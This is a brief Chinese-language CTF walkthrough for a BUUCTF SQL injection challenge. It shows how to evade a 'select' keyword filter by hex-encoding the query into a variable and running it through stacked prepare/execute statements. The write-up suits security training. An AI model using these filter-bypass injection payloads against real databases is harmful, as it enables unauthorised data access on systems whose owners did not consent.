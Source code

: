 ### 十六进制绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/682afb5c58cb8da5c8fc3326.jpg)

继上一节改表绕过后，这题还有别的方法，

因为 select 被过滤了，可以尝试十六进制编码绕过

![](https://pic1.imgdb.cn/item/682b122b58cb8da5c8fc544c.jpg)

设置一个变量值保存这段十六进制

```sql
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
```

`prepare…from…` 是预编译语句，会进行编码转换

`execsql` 是一个临时的 SQL 语句名称

```sql
prepare execsql from @a;
```

`execute` 执行 SQL 语句

```sql
execute execsql;#
```

![](https://pic1.imgdb.cn/item/682b14e458cb8da5c8fc5943.jpg)